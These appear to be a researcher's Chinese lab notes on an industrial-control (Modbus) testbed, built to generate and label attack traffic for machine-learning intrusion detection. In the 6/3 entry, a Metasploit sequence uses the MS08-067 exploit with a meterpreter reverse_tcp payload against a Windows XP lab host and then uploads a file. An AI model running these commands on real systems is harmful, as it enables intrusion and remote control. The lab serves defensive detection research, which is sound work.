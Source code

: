 #### 6/3

复现并标记黑样本

##### 靶场

slave.py：每个RTU作为server，控制三个slave，分别绑定线圈（继电器开关）、离散输入（电压表状态）、保持寄存器（电压表示数），保持寄存器每5秒随机设定电压值

master.py：MTU，每隔10s，对两个RTU发送请求，读三个值，写可选

```python
slave_1.add_block(block_name='0', block_type=cst.HOLDING_REGISTERS, starting_address=0, size=100)
slave_1.set_values(block_name='0',address=0,values=4)
slave_1.get_values(block_name='0',address=0,size=1)
```

<img src="202206/结构.png" style="zoom:67%;" />

MTU，Ubuntu18，192.168.10.129

```sh
sudo python3 listen.py
python3 master.py
```

RTU1，Kali，192.168.10.131

```sh
sudo python3 listen.py
python3 slave.py 502
msfconsole
```

RTU2，WinXP，192.168.10.138。xp上安装modbus_tk需要先安装pyserial

```sh
python3 slave.py 502
```

攻击

```sh
use exploit/windows/smb/ms08_067_netapi
set target 34
set payload windows/meterpreter/reverse_tcp
set RHOSTS 192.168.10.138
exploit

meterpreter > upload '/home/mika/Desktop/slave.py' 'C:\\Documents and Settings\\xuegod_root\\桌面'
```



##### 标记

数据集：3分钟，1276条流量

```python
import pandas as pd

if __name__=="__main__":
    csv_path=r"C:\Users\Mika\Desktop\组会\202206\master.csv"
    table=pd.read_csv(csv_path)
    mtu='192.168.10.129'
    rtus=['192.168.10.131','192.168.10.138']
    # Index(['No.', 'Time', 'Source', 'Destination', 'Protocol', 'Length', 'Info'], dtype='object')
    n = len(table)
    for i in range(n):
        if table.loc[i]['Source'] in rtus and table.loc[i]['Destination'] in rtus:
            table.loc[i,'Label']='1'
        else:
            table.loc[i,'Label']='0'
    table.to_csv(csv_path,index=False,encoding='utf-8-sig')
```

242-403：ms08攻击

704-723，1084-1086：传文件

------

#### 6/10

##### 互联网流量分类中流量特征研究 刘珍

通过特定的技术手段，从大量的网络流量中识别单类应用或区分多类应用（如Web, Attack, P2P等）的流量

基于报头的流量特征：从单个报文头部的字段提取。分类能力较低，统计开销小，时效性高

- MAC头：帧长、报文长度
- IP头：IP头校验和、IP协议、TTL
- 传输层头：端口号、TCP/UDP/push标记

基于网络流的流量特征：统计每条流中多个报文分组表现出的统计特性

- 单流特征：
  报文相关：报文数、报文大小、标志位报文数、总体字节数
  时间相关：括报文到达时间间隔、流持续时间、空闲时间的平均值、方差
  连接相关：吞吐量、丢包率、窗口大小

- 多流特征：
  主机的流量、网络段的流量、节点的流量和会话的流量

- 香农信息熵：描述某个报文载荷payload取值的随机性（在代码中：对每个数据包packet中的payload部分的每个字符统计词频）
  $$
  E=-\sum_{i=1}^n \frac{字符i的数量}{字符总数}\log_2\frac{字符i的数量}{字符总数}
  $$

基于连接图的特征：形成一张图，使用图论知识，包括节点度数、边数等

##### tshark提取特征

tshark：根据pcap文件提取字段，并将值写入csv文件

tshark.exe在wireshark主目录下，添加至环境变量即可。注意pycharm使用gbk编码

```python
    cmd = "tshark -nr {} -T fields " \
          "-e frame.number " \
          "-e tcp.seq " \
          "-e tcp.ack " \
          "-e ip.len " \
          "-E separator=, > {}" \
        .format(fake_command_file, label_file_feature)
    os.system(cmd)
```

tshark命令参数：

- -r 输入pcap文件路径
- -e 要过滤得到的字段
- -E 分隔符
- \> 要导入的csv文件路径

字段大全：
时间戳 frame.time >= "Jun 3, 2022 9:50:57.0"
源IP地址 ip.src
源端口 tcp.srcport
源MAC地址 eth.src == 00:0c:29:14:f8:0b
目的IP地址 ip.dst
目的端口 tcp.dstport
目的MAC地址 eth.dst
标识数据包是请求或者响应报文 tcp.ack == 1
功能码 modbus.func_code
错误码 modbus.exception_code
数据块内存地址 modbus.reference_num
操作的数据块数量 modbus.word_cnt
单个数据块的值 modbus.regval_uint16
事务ID mbtcp.trans_id
ModbusTCP报文长度 mbtcp.len
数据包标签

```sh
tshark -nr C:/Users/Mika/Desktop/组会/202206/特征提取-examples/examples/iie_data.pcap  -T fields -e frame.time -e ip.src -e tcp.srcport -e eth.src -e ip.dst -e tcp.dstport -e eth.dst -e tcp.ack -e modbus.func_code -e modbus.exception_code -e modbus.reference_num -e modbus.word_cnt -e modbus.regval_uint16 -e mbtcp.trans_id -e mbtcp.len -E separator=, > C:/Users/Mika/Desktop/组会/202206/特征提取-examples/examples/iie_data.csv
```

##### 随机森林

sklearn

```python
dataset = pd.read_csv('features.csv')
reduced_dataset = dataset.sample(3000)
reduced_y = reduced_dataset['label']
reduced_x = reduced_dataset.drop(['label'], axis=1)

x_train, x_test, y_train, y_test = train_test_split(reduced_x, reduced_y, test_size=0.2, random_state=42)
rf_clf = RandomForestClassifier(max_depth=50)	# 随机森林
rf_clf.fit(x_train, y_train)
rf_prediction = rf_clf.predict(x_test)
print(rf_prediction)
```
